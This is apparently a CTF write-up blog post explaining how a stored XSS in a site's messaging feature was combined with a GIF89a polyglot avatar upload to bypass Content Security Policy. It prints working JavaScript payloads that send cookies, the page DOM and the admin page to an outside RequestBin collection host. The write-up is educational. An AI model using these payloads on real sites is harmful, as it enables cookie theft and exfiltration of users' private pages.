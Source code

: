 ```yaml
---
layout: post
title: "CTF Snippets: XSS.gif"
tags:
- hack
- ctf
- sectalks
- xss
- csrf
- file-upload
- image
- gif
- csp
- chrome
- safari
categories:
- devalias
disqus: true
webmention: true
crosspost_to_medium: false
---
```

I was playing around with the top challenge on the CTF at [SecTalks](http://www.sectalks.org/canberra/) the other night, and thought I'd do a quick writeup of some of the techniques required; for future reference, and to help others to learn.

## Hack the gibso.. Website

To start off, we were given a URL to a website that looked like a pretty standard sort of blog. Features included things like account registration/login, avatar upload, messaging between users, search, posts (not by a standard account), comments on posts (standard account), showing online users, etc. And the `administrator` was online.. interesting.

Poking around at things, I discovered that the messaging system didn't seem to filter out HTML from the subject/message body. Easy! (or so I thought) I put together a super basic PoC XSS payload and tried it out by sending a message to my own account:

```html
<script>alert('XSS')</script>
```

I checked the message.. but for some reason it didn't pop, even though my payload seemed fine in the source. :(

```html
<div class="well">
  <script>alert('XSS')</script>
</div>
```

Looking at the developer console gave me some more insight. Apparently this site had [Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy) enabled, and it was blocking my payload.

> Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-kNShxzU0TYI8w1bsujgbPcQ4oIISMT9erFfdwx1ma+M='), or a nonce ('nonce-...') is required to enable inline execution.

Probably should have noticed those headers earlier.. Oh well, now to find a way around them. With spacing added for readability, the headers looked like:

```
Content-Security-Policy:
  default-src 'none';
  img-src 'self' placehold.it *.imgix.net;
  script-src 'self';
  connect-src 'self';
  style-src 'self' fonts.gstatic.com fonts.googleapis.com;
  font-src 'self' fonts.googleapis.com fonts.gstatic.com;
```

Since compromising Google or any other websites just to beat this CTF seemed out of the question, I figured I needed a way to get my script payload uploaded so that it would run from `self`.

How about that avatar upload functionality? Well, as you might expect, it was restricted to uploading images. But surely we could find a way around that.. right? Seems so! By making use of a super simple image format, we could trick the image checker and upload our payload.

Using the `GIF89a` format (which conveniently starts with it's name, then the rest is the GIF payload) I constructed and uploaded my new 'avatar' `pwn.gif`, designed to steal cookies via [RequestBin](http://requestb.in/):

```javascript
GIF89a/*.......*/=0;
window.location='http://requestb.in/secretcode?c='+document.cookie;
```

This passed the file format checker (which should have seen it as a GIF), and hopefully when I included it in my XSS, the JavaScript would execute. Not the stealthiest payload, but it should do the trick. It was time to test out my new 'avatar' by sending myself a test message:

```html
<script src="http://example.com/uploads/filenamehash.gif"></script>
```

Loading the new message.. there was still no payload! :( It seems Chrome foiled my plans again:

> Refused to execute script from 'http://example.com/uploads/filenamehash.gif' because its MIME type ('image/gif') is not executable.

This seemed like a browser specific security feature though, so trying it out in Safari, my payload executed. Good work Apple security! Checking the captured results on RequestBin there were no cookies. Guess I probably should have looked at that `HttpOnly` flag first.. Sometimes I just get caught up in the heat of the moment.

Ok.. so we couldn't steal the cookies.. but what could we do? [Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) maybe? There was a CSRF token designed to prevent this, but it didn't seem to get validated. That's good.. but what should we target?

Needing some better visibility on the situation, I decided to just steal the whole [DOM](https://en.wikipedia.org/wiki/Document_Object_Model) and have a look around. Maybe the administrator had other cool things to look at? Hacker-eyes activate! (comments added for clarity):

```javascript
GIF89a/*.......*/=0;
/* Wait for the page to fully load */
window.onload = function() {
  /* Create a form to send to RequestBin */
  var f = document.createElement('form');
  f.id="haxForm";
  f.method="post";
  f.action="http://requestb.in/secretcode";

  /* Create a textarea to store our data */
  var t = document.createElement('textarea');
  t.name="haxPayload";

  /* Capture the entire DOM and Base64 encode it */
  t.value = btoa(document.documentElement.outerHTML)

  /* Inject the form and send it */
  f.appendChild(t);
  document.body.appendChild(f);
  document.getElementById("haxForm").submit();
};
```

Ignoring my rusty JavsScript, the new payload would create a HTML `form` element with a `textarea`, grab the entire contents of the DOM, [Base64 encode](https://developer.mozilla.org/en-US/docs/Web/API/WindowBase64/btoa) them, stick them in the `textarea`, inject the `form` into the page, then send that off to RequestBin.

After checking that this actually worked against my own account, I sent a message to the administrator and waited. After a minute or so, the message status changed to read. Heading over to RequestBin and decoding the captured DOM, I found the following snippet:

```html
<li><a href="admin.php">Administration</a></li>
```

Sweet, let's find something juicy on that page! Reworking the payload (with a little help from [JQuery](https://api.jquery.com/jquery.get/) that was already on the site):

```javascript
GIF89a/*.......*/=0;
/* Wait for the page to fully load */
window.onload = function() {
  /* Create a form to send to RequestBin */
  var f = document.createElement('form');
  f.id="haxForm";
  f.method="post";
  f.action="http://requestb.in/secretcode";

  /* Create a textarea to store our data */
  var t = document.createElement('textarea');
  t.name="haxPayload";

  /* Inject the form */
  f.appendChild(t);
  document.body.appendChild(f);

  /* Load the admin page ajax-style, Base64 encode it, send it off */
  $.get("admin.php", function(data) {
    t.value = btoa(data);
    document.getElementById("haxForm").submit();
  });
};
```

Using the last payload as the template, I updated it to load the `admin.php` page via ajax, Base64 encode the result and send it to RequestBin. After uploading, messaging the administrator, waiting, checking the  response and decoding; it seemed there wasn't even a need to do anything else:

```html
<legend>
  <h3>Administration</h3>
</legend>
<h4>flag{the-secret-flag-code}</h4>
```

Mischief managed!

## Raw Notes

I figured it might be fun to include the raw snippets of notes I made as I was going through this, to give a better idea of my thought process throughout:

* Administrator is online
* We can send messages to users
* We can inject images/etc in messages, but ContentSecurityPolicy blocks us from executing code from anywhere but self
* We can upload image files (can we make that other types?)
  * GIF89a based XSS, won't exec in chrome though..
* Administrator will read messages we send them (check the 'sent' page)
* Admin isn't using chrome! :p
* The request doesn't send us any cookies! :( (they're HTTP only)
* CSRF token doesn't seem to actually be validated.. What can we CSRF..?
* Use the XSS to send us the admin's DOM
* Seems there's an admin.php page..
* Ajax the admin page
* Success!

## Conclusion

This CTF was a pretty fun little challenge, tying together XSS, CSP bypass, file upload/image abuse and snooping through the DOM.

Has this helped you learn something new? Got a better way to approach it? I'd love to hear from you in the comments!

## References

* Content Security Policy
  * [Content Security Policy | OWASP](https://www.owasp.org/index.php/Content_Security_Policy)
  * [Content Security Policy Cheat Sheet | OWASP](https://www.owasp.org/index.php/Content_Security_Policy_Cheat_Sheet)
  * ["An Introduction to Content Security Policy" by HTML5 Rocks](http://www.html5rocks.com/en/tutorials/security/content-security-policy/)
  * [Content Security Policy References and Examples](https://content-security-policy.com/)
* File Upload/Image XSS
  * ["GIF Image XSS" by eXpl0i13r](https://blackpentesters.blogspot.com.au/2013/08/gif-image-xss.html)
  * [File Upload XSS | Hack2Learn](http://brutelogic.com.br/blog/file-upload-xss/)
  * [List of File Signatures | Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
  * ["Exploiting PHP-GD imagecreatefromgif() function" by d0lph1n98 ](https://github.com/d0lph1n98/Defeating-PHP-GD-imagecreatefromgif)
* Capturing Requests
  * [Request Bin](https://requestb.in/)
